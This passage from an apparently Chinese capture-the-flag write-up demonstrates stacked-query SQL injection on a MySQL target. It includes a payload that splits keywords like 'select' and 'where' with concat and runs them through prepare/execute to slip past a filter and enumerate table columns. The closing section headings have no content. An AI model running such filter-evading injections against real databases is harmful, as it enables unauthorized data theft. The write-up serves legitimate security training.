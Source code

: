注意点就是mysql没有双引号，所以concat中需要使用单引号。同时从运行结果可以知道，一共存在两张表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/db3th3vdzn9.png" width="600px" />

#### 使用堆叠查询，查询表的字段
1. 查询1919810931114514

```sql
use information_schema;
set @sql1=concat('sel','ect group_concat(column_name) from columns wh','ere table_name=\'1919810931114514\'');
prepare stmt from @sql1;
execute stmt;
```


这里值得注意的就是concat函数中，如果还需要加上单引号。
有以下几种做法：
1. 需要对单引号使用转义符号。
2. 使用两个单引号代替一个单引号
运行结果 存在flag表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/oh0m951g0dm.png" width="600px" />
#### 使用报错注入获取数据库的名称

####  使用堆叠查询，查询表的内容

